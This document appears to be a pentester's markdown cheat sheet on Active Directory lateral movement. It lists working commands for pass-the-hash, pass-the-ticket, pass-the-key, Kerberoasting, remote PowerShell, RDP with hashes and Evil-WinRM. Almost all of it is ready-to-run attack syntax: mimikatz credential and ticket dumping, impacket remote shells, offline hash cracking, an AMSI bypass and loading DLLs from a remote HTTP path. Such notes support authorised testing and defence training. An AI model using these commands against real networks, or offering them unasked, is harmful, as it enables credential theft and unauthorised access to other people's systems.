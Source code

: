 # Lateral Movement

## Pass the Hash

Use the hash to login in another machine as a local user without knowing its password. Works because NTLM hashes are static so if a user logs into different machines his hash will remain the same on each host.

```
pth-winexe -U <domain>/<user>%<NT hash>:<LM hash> //<target ip> cmd

#impacket
smbexec.py <user>@<ip> -hashes <NTLM>
psexec.py <user>@<ip> -hashes <NTLM>
wmiexec.py <user>@<ip> -hashes <NTLM>

#mimikatz
sekurlsa::logonpasswords    #get a list of NTLM and DAPI keys for users
sekurlsa::pth /user:<user> /domain:<domain> /ntlm:<NTLM> /run:powershell.exe
```

## Pass the Ticket

Loads a ticket in memory granting the current user access to the remote machine/service within the context of the current session.

```
sekurlsa::tickets /export
```

#### Run on Windows

```
kerberos::ptt <.krbi file>
.\PsExec.exe -accepteula \\<target host> cmd
```

#### Run on Linux

```
#convert and store the ticket file for impacket use
python ticket_converter.py ticket.kirbi ticket.ccache
export KRB5CCNAME=<.ccache file path>

#start remote connection
python psexec.py <domain>/<user>@<host> -k -no-pass
python smbexec.py <domain>/<user>@<host> -k -no-pass
python wmiexec.py <domain>/<user>@<host> -k -no-pass
```

## Pass the Key

Obtain a TGT ticket by providing NTLM token, AES key or a  password. The obtained TGT token can then be used to access other machines.

```
python getTGT.py <domain_name>/<user_name> -hashes <NTLM>
python getTGT.py <domain_name>/<user_name> -aesKey <AES>
python getTGT.py <domain_name>/<user_name>:<password>

export KRB5CCNAME=<ccache file>

#start remote connection
python psexec.py <domain>/<user>@<host> -k -no-pass
python smbexec.py <domain>/<user>@<host> -k -no-pass
python wmiexec.py <domain>/<user>@<host> -k -no-pass
```

## Kerbertoast

Send a request to a TGT for a Kerberos token, dump it from memory, crack it locally to obtain access to the target. Vulnerable accounts need to have the flag `serverPrincipalName` set.

Enumerate remote targets

```
Get-NetUser | Where-Object {$_.servicePrincipalName} | fl

get-adobject | Where-Object {$_.serviceprincipalname -ne $null -and $_.distinguishedname -like "*CN=Users*" -and $_.cn -ne "krbtgt"}
get-adobject -filter {serviceprincipalname -ne $null} -prop serviceprincipalname

setspn -T <domain> -Q */*
```

Enumerate  local sessions

```
klist
```

Request a Service Ticket from the target. The ticket will be stored in memory

```
Add-Type -AssemblyName System.IdentityModel  
New-Object System.IdentityModel.Tokens.KerberosRequestorSecurityToken -ArgumentList "<SPN>"
```

Dump the SPN ticket using Mimikatz

```
privilege::debug
token::elevate
kerberos::list /export
```

Crack the .kirbi file

```
hashcat -m 13100 --force <hashfile> <wordlist>
john --format=krb5tgs --wordlist=<wordlist> <hashfile>    #requires jumbo version
```

## Powershell remoting

### Manage sessions

Enable remoting (Administrative privileges required)

```
 Enable-PSRemoting
```

connect to machine

```
Enter-PSSession -ComputerName <fqdn>
```

Store session data and connect

```
$<varname>= New-PSSession -ComputerName <fqdn>
Enter-PSSession -Sessions <varname>
```

### Code execution

Invoke-Command

```
//disable limit on laguage, enable scriptlets
Invoke-Command -ComputerName <fqdn> -ScriptBlock {$ExecutionContext.SessionState.LanguageMode}

Invoke-Command -ComputerName <fqdn> -ScriptBlock {<code>} 
Invoke-Command -ComputerName <fqdn> -FilePath <path>    //script from file
```

#### Code execution with valid credentials

Load credentials

```
$session = New-PSSession -ComputerName <fqdn>
$secPassword = ConvertTo-SecureString '<pass>' -AsPlainText -Force
$cred = New-Object System.Management.Automation.PSCredential('htb.local\<username>', $secPassword)
```

Execute command

```
Invoke-Command -ComputerName <fqdn> -Credential $cred -ScriptBlock {<commands>}
```

Run a PowerShell script remotely

```
Invoke-Command -Credential $cred -ComputerName <fqdn> -FilePath <path to ps1 file> -Session $session
```

## RDP

Mimikatz

```
privilege::debug
sekurlsa::pth /user:<user> /domain:<domain> /ntlm:<ntlm hash> /run:"mstsc.exe /restrictedadmin"
```

Xfreerdp

```
xfreerdp +clipboard /dynamic-resolution /cert-ignore /u:<user> /pth:<ntlm hash> /v:<host>
```

## RunAs

```
cmdkey /list                                      //get a list of credentials, runas will use the ones in memory
runas /savecred /user:<user> "\\<ip>\<path>"      //connect to share
runas /savecred /user:<user> "cmd.exe /k <cmd>"   //run command as user

runas /env /noprofile /user:<username> <password> "<cmd>"
```

## Evil-WinRM

Ps1 files must be stored in path specified by -s option. To execute a script simply type its name in the console.

```
evil-winrm -i <ip> -u Administrator -p <password>
evil-winrm -i <ip> -u Administrator -H <hash>
```

### In-memory execution + AMSI Bypass

Find pre-compiled binaries for in-memory execution here: [https://github.com/Flangvik/SharpCollection](https://github.com/Flangvik/SharpCollection)

```
menu
Bypass-4MSI
Invoke-Binary <path to local compiled file>
```

### Dll loader

```
Dll-loader -http -path http://<path to .dll>
Dll-loader -smb -path \\<share>\\<file>.dll
Dll-loader -local -path C:\<path to dll>
```

